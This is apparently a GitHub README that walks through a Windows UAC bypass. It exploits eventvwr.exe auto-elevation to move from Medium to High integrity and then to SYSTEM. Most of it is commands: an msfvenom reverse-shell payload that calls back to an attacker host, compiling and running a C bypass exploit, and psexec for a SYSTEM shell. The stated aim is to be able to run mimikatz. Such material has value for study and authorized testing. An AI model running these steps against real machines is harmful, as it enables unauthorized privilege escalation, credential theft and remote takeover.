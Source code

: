# UAC-bypass

If you're in Administrator group but are on Medium Mandatory Level, you can't run some commands and tool due to User Account Control. One should need to bypass UAC to get on High Mandatory Level, from there we can become SYSTEM. With UAC enabled we can't run tools like mimikatz, and sometime commands like changing administrator password etc.

# Exploitation

## Check for Permissions
```markdown
whoami /all
```
![OnPaste 20220608-165652](https://user-images.githubusercontent.com/106917304/172605390-b7dfb995-c707-45cd-be78-9c7d2f23c4a5.png)

We're in administrator group and on Medium Mandatory Level.
## Check For UAC is Enabled
```markdown
reg query HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System 
```
![OnPaste 20220608-170237](https://user-images.githubusercontent.com/106917304/172606326-7b52b703-d024-4c97-ad19-29105d509a2f.png)

EnableLUA tells us whether UAC is enabled. If 0 we don’t need to bypass it at all can just PsExec to SYSTEM. If it’s 1 however, then check the other 2 keys 
PromptSecureDesktop is on.


First we ensure that eventvwr.exe exists and is set to autoelevate to High integrity.
```markdown
where /r C:\\windows eventvwr.exe
```
![OnPaste 20220608-170657](https://user-images.githubusercontent.com/106917304/172607955-1ffda1af-2254-4a7e-86a8-7ee739529943.png)


Upload [strings64.exe](https://github.com/k4sth4/UAC-bypass/blob/main/strings64.exe) to target machine.
```markdown
strings64.exe -accepteula C:\\Windows\\System32\\eventvwr.exe | findstr /i autoelevate
```

![OnPaste 20220608-171241](https://user-images.githubusercontent.com/106917304/172608066-79407888-b78d-4484-b071-6fed6d09ca48.png)

We can see the value is set to True.

Now on Atacker machine generate msfvenom payload:
```markdown
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.x.x LPORT=443 -f exe > shell.exe
```
we gonna use [eventvwr-bypassuac.c](https://github.com/k4sth4/UAC-bypass/blob/main/eventvwr-bypassuac.c)


NOTE: Remember the name of the reverse shell that we generated with masfvenom is shell.exe. If you have given another name to payload, must change the name in C script and both our shell.exe and eventvwr-bypassuac.c needs to be on same directory on attacker vm.

We need to compile the C script to get our exploit.
```markdown
x86_64-w64-mingw32-gcc eventvwr-bypassuac.c -o eventvwr-bypassuac-64.exe
```

![OnPaste 20220608-172613](https://user-images.githubusercontent.com/106917304/172610444-fbd93a1f-09bf-4a31-b099-0d9f371391b3.png)


## Reverse Shell

Now upload shell.exe and eventvwr-bypassuac-64.exe to target machine and execute eventvwr-bypassuac-64.exe.  
```markdown
.\eventvwr-bypassuac-64.exe 
```
![OnPaste 20220608-173002](https://user-images.githubusercontent.com/106917304/172611083-5c94570f-2d4b-4eef-a7a8-5ea6308fd890.png)

Got Reverse Shell.

![OnPaste 20220608-173131](https://user-images.githubusercontent.com/106917304/172611380-ad7daa97-e036-4d7a-9717-3c8740496d66.png)

We can see that now we are on High Mandatory Level.

![OnPaste 20220608-173341](https://user-images.githubusercontent.com/106917304/172611822-9f2d5991-d494-40a2-9815-ef76f572cfa4.png)

Now we can run mimikatz!

If you want SYSTEM shell we can now become SYSTEM with [psexec64.exe](https://github.com/k4sth4/UAC-bypass/blob/main/psexec64.exe)

Upload psexec64.exe and shell.exe on target machine with High Mandatory Level. Now execute psexec64.exe with shell.exe.
```markdown
.\psexec64.exe -i -accepteula -d -s C:\\programdata\\shell.exe
```

After that we'll get a reverse shell as SYSTEM.

